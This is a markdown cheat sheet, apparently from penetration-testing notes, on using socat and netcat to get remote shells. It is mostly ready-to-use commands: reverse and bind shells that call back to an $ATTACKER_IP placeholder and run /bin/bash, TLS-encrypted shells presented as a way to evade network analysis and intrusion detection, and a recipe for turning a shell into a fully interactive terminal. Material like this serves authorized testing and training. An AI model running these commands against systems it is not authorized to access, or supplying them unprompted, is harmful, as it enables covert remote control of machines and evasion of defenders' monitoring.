 # Using "socat"

Socat: An anything-to-anything connector!

## "socat" vs. "netcat"

Equivalent commands between socat and netcat:

```bash
# Reverse shell (attacker)
#
nc -lnp $LISTENER_PORT
socat TCP-LISTEN:$LISTENER_PORT -

# Reverse shell (target)
#
nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"

# Bind shell (attacker)
#
nc $TARGET_IP $LISTENER_PORT
socat TCP:$TARGET_IP:$LISTENER_PORT

# Bind shell (target)
#
nc -lnp $LISTENER_PORT -e /bin/bash
socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"
```

Socat gets us an interactive login shell right out the gate, though we're still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

* [Using "netcat"](./Using%20%22netcat%22.md)

### Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```bash
# Generate a self-signed certificate.
#
openssl req --newkey rsa:2048 -nodes \
            -keyout shell.key -x509 -days 362 \
            -out shell.crt

# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem

# Start a listener.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -

# Start the reverse shell on the target.
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li"
```

The `verify=0` directive turns off certificate validation, so this isn't a "secure" connection in the sense that it's been *authenticated*, but it is secure in the sense that it's *encrypted*.

## Shell "Stabilization"

Shell "stabilization" refers to the process of making a remote shell behave like a normal local shell - so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems.

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
      EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

Same thing, but over an encrypted connection:

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=$PEM_FILE,verify=0 \
	FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

**Note:** The reverse shell will not pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.
